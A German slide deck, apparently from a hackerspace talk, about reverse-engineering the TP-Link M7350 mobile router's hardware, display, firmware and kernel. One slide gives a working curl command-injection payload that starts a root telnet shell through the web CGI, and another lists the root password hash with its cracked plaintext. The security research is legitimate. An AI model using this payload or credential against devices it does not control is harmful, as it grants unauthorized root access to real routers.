






:::::::::::::: {.columns}
::: {.column width="36%"}
handle: \
bürgerlich: \
rufname: \
:::
::: {.column width="42%"}
m0veax \
Patrick Kilter \
Lutz \
:::
::: {.column width="5%"}
:::
::::::::::::::
 \

- In meinem Berufsleben mache ich Sachen mit Softwareentwicklung und Corporate Requirements
- Springe seit ~2 Jahren im Chaos rum
- Verbringe meine Freizeit mit allem was mich (sprunghaft) interessiert und meinen Kindern

# TP-Link M7350 Projekt

- mein erstes Projekt im Bereich "Hardware Hacking"
- was ich hier zeige ist nicht nur meine Leistung, sondern gesammelte Werke aus dem Projekt

# Beginn

- wir sind irgendwie™ an eine Stückzahl der Mobile-Router gekommen
- Im Chaospott haben sich mehrere Entitäten gefunden, die sich mit dem Gerät befassen möchten
- wir haben einen [Matrix Channel](https://matrix.to/#/!hUtDhlRLVIQJzRgCpE:zehka.net?via=yip.gay&via=matrix.org&via=chaospott.de) und ein [Github Repository](https://github.com/m0veax/tplink_m7350/tree/main) zum sammeln der Informationen eingerichtet
- HACK THE PLANET

# Hardware

:::::::::::::: {.columns}
::: {.column width="47%"}
SoC \
flash \
mobile wireless
:::
::: {.column width="47%"}
Qualcomm MDM9225 \
2Gbit (256MB) Winbond W71NW20GF3FW \
Skyworks SKY77629
:::
::: {.column width="5%"}
:::
::::::::::::::

 \

:::::::::::::: {.columns}
::: {.column width="47%"}

:::
::: {.column width="47%"}

:::
::: {.column width="5%"}
:::
::::::::::::::

 \

# Wir legen los

- wir finden 4pda
- russisches Forum, das u.a. eine RCE im Webinterface gefunden hat
- die dort hochgeladenen Scripte sind nicht mehr verfügbar
- wir haben den dokumentierten Payload in Rust und später bash implementiert und telnet Zugang auf das Gerät erhalten
- wir haben root per telnet

`curl -s 'http://192.168.0.1/cgi-bin/qcmap_web_cgi' -b "tpweb_token=$token" -d '{"token":"'"$token"'","module":"webServer","action":1,"language":"$(busybox telnetd -l /bin/sh)"}' > /dev/null`

# Erste Findings

- komfortable shell per adb possible
- wir dokumentieren random findings im Filesystem und dumpen die Firmware
 - `root:C98ULvDZe7zQ2:0:0:root:/home/root:/bin/sh` -> `oelinux123`
- aus der Firmware extrahieren wir ein Device Tree Binary

# Was können wir eigentlich mit dem Display machen?

- Wir finden die Display Version per dtvis

# Was können wir eigentlich mit dem Display machen?

- Wir können UI Tiles darstellen und ändern

# Was können wir eigentlich mit dem Display machen?

- Pika Pika

# Was können wir eigentlich mit dem Display machen?

- der kann farbe, obwohl die originale Firmware nur schwarz/weiß nutzt

# TP-Link OSS

- Kernel Sources von der TP-Link Seite
- Ist ein Android Kernel
- Wir hatten Schwierigkeiten die passende Kernelversion zu finden
- Wir haben die ersten Kernel bauen können
- [extra repository](https://github.com/m0veax/tplink_m7350-kernel) erstellt und im Hauptrepository verlinkt

# offene Rätsel

- wie mit den Debugpoints sprechen?

# offene Rätsel

- wie mit den Debugpoints sprechen?

# offene Rätsel

- Zugriff auf den bootloader 
- fastboot implementiert in [LK](https://github.com/littlekernel/lk) (Little Kernel)

# offene Rätsel

- per Shellzugriff können AT Commands an das Modem gesendet werden
- das wurde noch nicht ausprobiert und kann dokumentiert werden

# offene Rätsel

- was könnt ihr finden?

# Fazit

- Mittlerweile sind Menschen aus anderen Regionen unserem Chat beigetreten und forschen mit

. . .

- Es gibt auf dem Gerät noch viel zu erforschen

. . . 

- Ich finde Folien bauen schrecklich

. . .

- Danke für eure Aufmerksamkeit :)